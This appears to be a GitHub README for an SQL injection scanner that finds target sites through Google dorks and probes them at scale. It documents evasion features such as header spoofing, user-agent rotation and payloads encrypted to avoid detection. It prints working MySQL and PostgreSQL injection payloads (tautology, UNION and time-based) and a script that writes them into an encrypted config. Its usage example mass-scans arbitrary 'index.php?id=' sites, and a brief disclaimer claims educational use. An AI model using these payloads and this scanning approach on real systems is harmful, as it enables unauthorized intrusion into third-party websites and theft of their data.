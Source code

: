 # SQLi-Inject  
**Comprehensive SQL Injection Dork Scanner**  

---

## 🔍 Main Features
- **Automatic Google Dorking** - Discover targets using the Google Custom Search API
- **Encrypted Payloads** - Encrypt payloads with Fernet to avoid detection
- **Multithreaded Scanning** - Parallel execution with ThreadPoolExecutor
- **Evasion Mechanisms**:
  - Random User-Agent rotation
  - Dynamic delay with jitter
  - Spoofing X-Forwarded-For header
  - Fake referer
- **Multi-Format Reporting** (JSON/CSV/Console)
- **Intelligent Detection**:
  - Response time analysis
  - Database error pattern matching
  - HTTP status code validation

---

## 🛠️ Installation
1. Clone the repository  
```bash
git clone https://github.com/KnuckleSalt/SQli-Dork
```

2. Install dependencies


```bash
pip install -r requirements.txt
```

---

⚙️ Configuration

Create a file named config.yaml using the following template:

```bash
security:
  encryption_key: "base64_32_byte_fernet_key"

payloads:
  mysql:
    - "gAAAAAB..."  # Encrypted MySQL payload
    - "gAAAAAB..."  # Example: ' OR 1=1 --
  postgresql:
    - "gAAAAAB..."  # Encrypted PostgreSQL payload

network:
  proxies:
    http: "http://proxy:port"
    https: "https://proxy:port"
  timeout: 10

endpoints:
  google: "https://www.googleapis.com/customsearch/v1"

credentials:
  api_key: "your_google_api_key"
  cse_id: "your_cse_id"

stealth:
  referers:
    - "https://www.google.com"
    - "https://www.bing.com"
  time_based_threshold: 3.5

performance:
  threads: 15

detection_patterns:
  - "error in your SQL syntax"
  - "Warning: mysql"
  - "PostgreSQL.*ERROR"
```

## 🔑 Generate Encryption Key

from cryptography.fernet import Fernet
print(Fernet.generate_key().decode())

## 🔒 Example Payload Encryption

```bash
key = Fernet.generate_key()
cipher = Fernet(key)
encrypted_payload = cipher.encrypt(b"' OR 1=1 -- ").decode()
print(encrypted_payload)
```

## Example auto generate config.yaml

```bash
from cryptography.fernet import Fernet
import yaml

KEY = Fernet.generate_key()
cipher = Fernet(KEY)

payloads = {
    "mysql": [
        "' OR 1=1 -- ",
        "' UNION SELECT version(),2 -- ",
        "' AND 1=IF(2>1,SLEEP(5),0) -- "
    ],
    "postgresql": [
        "' OR 1=1; -- ",
        "' UNION SELECT NULL,version() -- ",
        "' AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE NULL END -- "
    ]
}

encrypted_payloads = {
    dbms: [cipher.encrypt(p.encode()).decode() for p in payloads[dbms]]
    for dbms in payloads
}

config = {
    'security': {'encryption_key': KEY.decode()},
    'payloads': encrypted_payloads,
    'network': {'timeout': 10, 'proxies': {}},
    'endpoints': {'google': 'https://www.googleapis.com/customsearch/v1'},
    'credentials': {'api_key': 'YOUR_APIKEY', 'cse_id': 'YOUR_CSE'},
    'stealth': {'referers': ['https://google.com'], 'time_based_threshold': 3.5},
    'detection_patterns': [
        r"SQL syntax.*MySQL",
        r"PostgreSQL.*ERROR",
        r"Warning.*mysql_",
        r"unclosed quotation mark"
    ],
    'performance': {'threads': 10}
}

with open('config.yaml', 'w') as f:
    yaml.dump(config, f, default_flow_style=False)

print("Config file generated successfully!")
```


---

## 🚀 Usage

Basic command:

```
python scanner.py --dork "inurl:index.php?id=" --max-results 50 --stealth
```

## Parameter options:

```
--dork          Google search query (required)
--site          Filter by domain
--file-type     Filter by file type
--max-results   Maximum number of results (1-100)
--stealth       Enable stealth mode
--jitter        Random delay variation (default: 0.5)
--delay         Base delay between requests (default: 1.0)
--random-agent  Random User-Agent rotation
--output        Report format (console/json/csv)
```

---

## ⚠️ Disclaimer

This tool is for educational and legal testing purposes only. Users are fully responsible for their own usage of this tool.


---

## 🙌 Special Thanks

Thanks to the open source contributors:

- [synnaulaid](https://github.com/synnaulaid) - Inspiration for developing security tools and debugging



---

